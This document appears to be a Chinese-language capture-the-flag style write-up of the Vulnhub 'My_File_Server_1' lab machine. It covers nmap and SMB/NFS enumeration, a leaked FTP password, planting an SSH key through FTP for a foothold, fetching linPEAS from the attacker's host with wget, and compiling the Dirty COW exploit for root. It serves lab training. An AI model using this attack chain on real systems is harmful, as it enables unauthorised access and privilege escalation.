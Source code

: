 ## 靶机描述
级别:容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP: 192.168.1.148

sudo nmap --min-rate 10000 -sT -p- 192.168.1.148 -oA tcp_scan/ports
//Ports:
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
20048/tcp open  mountd

cat tcp_scan/ports.nmap | grep open | awk -F '/' '{print $1}' | tr '\n\r' ','
21,22,80,111,445,2049,2121,20048,

sudo nmap -sT -sC -sV -O -p 21,22,80,111,445,2049,2121,20048 192.168.1.148 -oA tcp_scan/details

```
> 21,2121的ftp服务权限很低，不能下载文件到本地

## Enum

```shell
sudo smbmap -H 192.168.1.148
// smbdata                                                 READ, WRITE     smbdata

sudo smbclient //192.168.1.148/smbdata //匿名登录

```
![[Pasted image 20231011134654.png]]
secure文件中得到一组凭据
![[Pasted image 20231011134718.png]]
```shell
showmount -e 192.168.1.148
//
Export list for 192.168.1.148:
/smbdata 192.168.56.0/24
56网段才可以访问
```


![[Pasted image 20231011135136.png]]
sshd_config显示SSH不允许密码登录

## Web
### 目录爆破

```shell
gobuster dir -u http://192.168.1.148 -w /usr/share/wordlists/dirb/common.txt -x txt
// /readme.txt           (Status: 200) [Size: 25]
//
My Password is
rootroot1

得到一个ftp凭据
smbuser:rootroot1
```

## 提权

```shell
使用smbuser:rootroot1登录ftp，目录是/home/smbuser
```

### FTP上传公钥获得立足点
![[Pasted image 20231011142159.png]]
```shell
本地生成ssh密钥对,上传公钥到ftp
sudo ssh-keygen //输入文件名，不需要输入密码
上传公钥(.pub),按照配置文件要求重命名为authorized_keys
sudo chmod 600 marshall(更改私钥权限为600)
//ftp
mkdir .ssh
cd .ssh
put /home/kali/Vulnhub/My_File_Server_1/marshall.pub authorized_keys

sudo ssh -i marshall smbuser@192.168.1.148 //得到立足点
//没有自动任务 没有suid权限文件
```

### 内核提取
```shell
uname -a 
// Linux fileserver 3.10.0-229.el7.x86_64 #1 SMP Fri Mar 6 11:36:42 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

// 这个内核版本可以使用dirty cow来提权(3.10.0-229.el7.x86_64)

//使用工具作为内核提权的参考(linPEAS)
git clone https://github.com/carlospolop/PEASS-ng.git(PEASS-ng/linPEAS/builder/linpeas_parts/**linpeas_base.sh**)

sudo php -S 0:80
//靶机
wget http://192.168.1.136/linpeas_base.sh
chmod +x linpeas_base.sh

# 或者从https://linpeas.sh/ 复制源码到本地(推荐)

//Dirty cow
searchsploit dirty cow

searchsploit -m 40616 
gcc 40616.c -o 40616 -pthread (waring可以忽略)
./40616 #成功提权
```
![[Pasted image 20231011152834.png]]

